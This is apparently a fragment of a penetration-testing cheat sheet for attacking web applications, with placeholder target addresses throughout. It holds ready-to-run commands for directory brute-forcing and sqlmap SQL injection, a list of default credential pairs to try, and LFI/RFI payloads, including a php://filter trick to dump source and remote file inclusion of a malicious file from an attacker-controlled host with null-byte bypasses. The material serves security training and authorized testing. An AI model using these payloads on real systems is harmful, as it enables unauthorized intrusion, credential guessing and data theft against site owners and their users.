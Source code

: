 

```
# Dirb
dirb http://INSERTIPADDRESS -r -o dirb-INSERTIPADDRESS.txt

# Gobuster - remove relevant responde codes (403 for example)
gobuster -u http://INSERTIPADDRESS -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e
```

INSERTDIRBSCAN


#### Default/Weak login

Google documentation for default passwords and test them:

```
site:webapplication.com password
```

```
admin admin
admin password
admin <blank>
admin nameofservice
root root
root admin
root password
root nameofservice
<username if you have> password
<username if you have> admin
<username if you have> username
<username if you have> nameofservice
```

#### LFI/RFI

```
# Kadimus
/root/Tools/Kadimus/kadimus -u http://INSERTIPADDRESS/example.php?page=


# Bypass execution
http://INSERTIPADDRESS/index.php?page=php://filter/convert.base64-encode/resource=index
base64 -d savefile.php

# Bypass extension
http://INSERTIPADDRESS/page=http://192.168.1.101/maliciousfile.txt%00
http://INSERTIPADDRESS/page=http://192.168.1.101/maliciousfile.txt?
```


#### SQL-Injection

```
# Post
./sqlmap.py -r search-test.txt -p tfUPass

# Get
sqlmap -u "http://INSERTIPADDRESS/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3
```
